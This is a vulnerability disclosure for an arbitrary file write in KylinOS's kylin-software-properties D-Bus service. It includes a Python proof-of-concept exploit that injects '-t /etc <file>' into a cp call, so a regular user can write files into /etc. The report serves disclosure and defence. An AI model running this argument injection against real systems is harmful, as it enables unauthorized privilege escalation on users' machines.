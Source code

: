 # Kylin OS kylin-software-properties arbitrary file write vuln

Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）
## Report
### Describe
Kylin-software-properties is a component used to set system software properties on KylinOS Desktop. The setMainSource function of this component has an arbitrary file write vulnerability. The implementation method is to call the command "cp file /etc/apt/sources.list". However, if the parameter passed is "['-t /etc /path/to/evil.txt']", the developer will split this string by space and pass it as a parameter to the cp command during implementation. Therefore, the command "cp -t /etc /path/to/evil.txt /etc/apt/sources.list" will be triggered, thereby achieving arbitrary file write in any folder. This can lead to elevation of privileges for regular users.
### Hazard level
High
### Affected version
kylin-software-properties < 0.0.1-130
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.py
```
#!/usr/bin/env python3

import sys
import dbus
import os

def set_main_source(target_dir, src_file):
  bus = dbus.SystemBus()
  obj = bus.get_object("com.kylin.software.properties", "/com/kylin/software/properties")
  proxy = dbus.Interface(obj, "com.kylin.software.properties.interface")
  proxy.setMainSource([f'-t {target_dir} {src_file}'])
  os.system('touch set_main_source.txt')

set_main_source("/etc", os.path.realpath('./set_main_source.txt'))
os.system('ls -l /etc/set_main_source.txt')
os.system('rm set_main_source.txt')
```
